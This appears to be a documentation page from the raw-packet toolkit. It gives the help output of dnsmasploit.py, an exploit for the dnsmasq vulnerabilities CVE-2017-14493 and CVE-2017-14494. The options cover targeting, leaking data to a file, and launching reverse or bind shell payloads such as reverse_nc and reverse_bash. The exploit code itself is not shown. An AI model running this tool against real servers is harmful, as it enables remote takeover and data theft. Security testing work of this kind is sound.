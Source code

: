 
# Exploits 

## Script: [dnsmasploit.py](https://github.com/raw-packet/raw-packet/blob/master/Scripts/Binary/dnsmasploit.py)

This script implements an exploit for CVE-2017-14493 and CVE-2017-14494 vulnerabilities in dnsmasq (DNS Server).

```
root@kali:~/raw-packet# ./dnsmasploit.py -h
usage: dnsmasploit.py [-h] [-i INTERFACE] [-e] [-l] [-f FILE_NAME] -t TARGET
                      [-p TARGET_PORT] [-a ARCHITECTURE] [-v VERSION]
                      [--interpreter INTERPRETER]
                      [--interpreter_arg INTERPRETER_ARG] [--payload PAYLOAD]
                      [--command COMMAND] [--bind_port BIND_PORT]
                      [--reverse_port REVERSE_PORT]
                      [--reverse_host REVERSE_HOST]

Exploit for dnsmasq CVE-2017-14493 and CVE-2017-14494

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Set interface name for send packets
  -e, --exploit         Exploit (CVE-2017-14493) works only if Stack cookie
                        and PIE disabled
  -l, --data_leak       Data leakage (CVE-2017-14494)
  -f FILE_NAME, --file_name FILE_NAME
                        Set file name for leak data
  -t TARGET, --target TARGET
                        Set target IPv6 address
  -p TARGET_PORT, --target_port TARGET_PORT
                        Set target port, default=547
  -a ARCHITECTURE, --architecture ARCHITECTURE
                        Set architecture (i386, amd64 or arm), default=i386
  -v VERSION, --version VERSION
                        Set dnsmasq version (2.70, 2.71, 2.72, 2.73, 2.74,
                        2.75, 2.76, 2.77), default=2.77
  --interpreter INTERPRETER
                        Set path to interpreter on target, default="/bin/bash"
  --interpreter_arg INTERPRETER_ARG
                        Set interpreter argument, default="-c"
  --payload PAYLOAD     Set payload (bind_awk, reverse_awk, reverse_bash,
                        reverse_php, reverse_nc, reverse_nce),
                        default=reverse_nc
  --command COMMAND     Set command for executing on target
  --bind_port BIND_PORT
                        Set bind port, default=4444
  --reverse_port REVERSE_PORT
                        Set reverse port, default=4444
  --reverse_host REVERSE_HOST
                        Set reverse host
```


[site-label]: https://raw-packet.github.io/static/images/labels/site.svg
[site-link]: https://raw-packet.github.io/
[os-label]: https://raw-packet.github.io/static/images/labels/os.svg
[os-link]: https://en.wikipedia.org/wiki/Linux
[python3-versions-label]: https://raw-packet.github.io/static/images/labels/python3.svg
[python3-versions-link]: https://www.python.org/downloads/release/python-374/
[license-label]: https://raw-packet.github.io/static/images/labels/license.svg
[license-link]: https://github.com/raw-packet/raw-packet/blob/master/LICENSE
[version-label]: https://raw-packet.github.io/static/images/labels/version.svg
[version-link]: https://github.com/raw-packet/raw-packet/releases
[stability-label]: https://raw-packet.github.io/static/images/labels/stability.svg
[stability-link]: https://github.com/raw-packet/raw-packet/releases